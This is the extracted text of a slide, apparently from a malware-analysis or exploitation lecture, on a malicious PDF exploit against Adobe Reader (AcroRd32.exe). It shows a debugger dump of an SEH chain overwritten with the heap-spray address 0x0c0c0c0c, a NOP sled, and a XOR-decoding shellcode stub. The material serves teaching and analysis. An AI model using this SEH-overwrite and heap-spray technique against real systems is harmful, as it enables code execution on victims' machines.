

SEH Handler Points to Nopsled + Shellcode
TEB
       FS:0
0c0c0c0c 90              nop
0c0c0c0d 90              nop
…
0c23fe2b 43              inc     ebx
0c23fe2c 43              inc     ebx
0c23fe2d 43              inc     ebx
0c23fe2e eb0f            jmp     0c23fe3f
0c23fe30 5b              pop     ebx
0c23fe31 33c9            xor     ecx,ecx
0c23fe33 66b98001        mov     cx,180h
0c23fe37 8033ef          xor     byte ptr [ebx],0EFh
0c23fe3a 43              inc     ebx
0c23fe3b e2fa            loop    0c23fe37
0c23fe3d eb05            jmp     0c23fe44
0c23fe3f e8ecffffff      call    0c23fe30

Stack
0494913805.cab (AcroRd32.exe)
0:000> !exchain -v
0012b450: kernel32!_except_handler4+0 (779ee289)
0012b4d8: kernel32!_except_handler4+0 (779ee289)
0012b578: kernel32!_except_handler4+0 (779ee289)
0012dbc0: 0c0c0c0c
Invalid exception stack at 0c0c0c0c

Next

Handler
Buffer
0x0c0c0c0c
0x0c0c0c0c
0x0c0c0c0c

0x0c0c0c0c
0x0c0c0c0c
0xfffffff
_except_handler3()

kernel32.dll
Handler